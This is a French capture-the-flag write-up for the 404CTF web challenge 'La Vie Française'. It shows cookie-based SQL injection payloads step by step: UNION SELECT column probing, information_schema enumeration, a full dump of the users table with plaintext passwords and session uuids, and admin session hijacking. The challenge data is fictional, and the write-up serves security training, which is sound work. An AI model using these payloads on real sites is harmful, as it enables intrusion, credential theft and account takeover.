# La Vie Française



La page d'accueil présente un lien pour *Se connecter* :



Une tentative d'injection SQL est vaine. Seuls les caractères alphabétiques sont autorisés pour le login et le password :



De même, il n'est pas possible d'utiliser le compte `admin` qui semble désactivé :


On crée un compte `toto` que l'on utilise pour se connecter :



Le message indique que la page est en rénovation. On cherche une autre version de la page : https://la-vie-francaise.challenges.404ctf.fr/.account~

La page n'existe pas, mais un lien vers un *Panneau d'admin* apparaît :



Malheureusement, nous ne sommes pas autorisés à accéder à cette page /admin :



Lors de la connexion un cookie `uuid` a été positionné.

On essaie d'exploiter une injection SQL par ce biais avec comme valeur pour le cookie `1' or '1'='1`. La page du compte `jacquerival` est alors présentée :



On essaie maintenant de déterminer le nombre de colonnes exploitées et leur utilisation (ou non) dans la construction de la page.
La valeur du cookie utilisée est `' union select '1', '2', '3`



Donc 3 colonnes sont utilisées dans la requête, mais seulement les colonnes 1 et 2 sont présentes sur la page.

On tente avec  `' union select 'admin', 'admin', 'admin` :



Le lien du *Panneau admin* apparaît, mais reste inaccessible.

On effectue d'autres expérimentations.

Identification de la base sous-jacente :
- uuid : `1' union select '1',version(),'3`
- résultat : `10.11.3-MariaDB-1:10.11.3+maria~ubu2204`

Identification de la database :
- uuid : `1' union select '1',version(),'3`
- résultat : `usersdb`

Liste des tables disponibles dans ce schéma :
- uuid : `1' union select '1', group_concat(table_name), '3' FROM information_schema.tables WHERE table_schema='usersdb`
- résultat : `users`

Liste des colonnes de la table `users` :
- uuid : `1' union select '1', group_concat(column_name), '3' FROM information_schema.columns WHERE table_name='users' and table_schema='usersdb`
- résultat : `id,username,password,uuid,description,status`

Contenu de la table `users` :
- `1' union SELECT 'admin', group_concat(id,'|', username,'|',password,'|',uuid,'|',description,'|', status), '3' FROM users where '1'= '1`
- résultat :
    ```
    1|jacquesrival|jQwmE96dZMEwmL|ea959fd4c62c41dfa7f480faef8a029d|Journaliste pour La vie Française|invite,
    2|louislangremont|Am2GzqU4xWA3At|3e7e863e74fe491a8c571e7d98b14f96|Journaliste pour La vie Française|invite,
    3|saintpotin|rH2jWTo9mnWJpd|c393c00634bb4420b9d94288ef16be70|Journaliste pour La vie Française|invite,
    4|norbertdevarenne|2P4vLpv7SV5dRK|417270ceb4294b2ca64a464f46909db7|Poète pessimiste|invite,
    5|larochemathieu|4EJ36bMx2NgAuh|4fec4a3c909f441c8502e616e4d22acf|Ministre|invite,
    6|madeleineforestier|fo2DVkgShz2pPJ|8650580d3fe9431f8281b2212e9ff0de|Editrice en chef|admin,
    7|a|a|9350288637f34eaa94c4b861a8495045|Candidat pour le poste de journaliste|invite,
    8|azerty|azerty|ae3ae764b6b443bc91f19bac98b14c2f|Candidat pour le poste de journaliste|invite
    ```

Seul le compte `madeleineforestier` est `admin`.

On positionne le cookie `uuid=8650580d3fe9431f8281b2212e9ff0de` et on se retrouve bien connecté en tant que madeleineforestier :

> Les mots de passe étant stockés en clair, on peut utiliser celui de madeleineforestier pour se connecter via le formulaire d'authentification.



On suit le lien vers le *Panneau admin* :



Le flag est donc : `404CTF{B3w4Re_th3_d3STruct1v3s_Qu0tes}`
